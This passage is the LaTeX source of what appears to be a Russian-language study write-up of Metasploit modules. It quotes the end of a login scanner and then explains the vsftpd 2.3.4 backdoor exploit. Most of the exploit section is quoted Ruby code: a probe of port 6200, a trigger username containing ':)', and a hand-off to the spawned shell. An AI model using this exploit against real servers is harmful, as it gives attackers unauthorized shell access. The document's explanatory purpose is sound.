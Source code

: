 \documentclass[11pt, a4paper]{article}		%
\begin{document}
\begin{itemize}
\begin{verbatim}
        print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: #{result.credential}"
      else
        invalidate_login(credential_data)
        vprint_error "#{ip}:#{rport} - LOGIN FAILED: #{result.credential} (#{result.status}: #{result.proof})"
      end
    end
\end{verbatim}



\item Далее рассмотрим exploit - vsftpd\_234\_backdoor. 

Путь: \verb'/usr/share/metasploit-framework/modules/exploit/unix/ftp/vsftd_234_backdoor.rb'.

Здесь все аналогично, остановимся на логике эксплоита.

Сначала происодит попытка подключения по порту 6200.

\begin{verbatim}
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_status("The port used by the backdoor bind listener is already open")
      handle_backdoor(nsock)
      return
    end
\end{verbatim}

Далее, если сокет открыт на ftp сервер отправляется рандомный пользователь и пароль, так же осуществляются проверки на доступ только анонимным пользователям и на ответ сервера:

\begin{verbatim}
sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
    resp = sock.get_once(-1, 30).to_s
    print_status("USER: #{resp.strip}")

    if resp =~ /^530 /
      print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
      disconnect
      return
    end

    if resp !~ /^331 /
      print_error("This server did not respond as expected: #{resp.strip}")
      disconnect
      return
    end

    sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")
\end{verbatim}

Далее не получая ответа на ввод пароля просто пытаемся запустить backdoor:

\begin{verbatim}
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_good("Backdoor service has been spawned, handling...")
      handle_backdoor(nsock)
      return
    end
\end{verbatim}


\end{itemize}
\end{document}
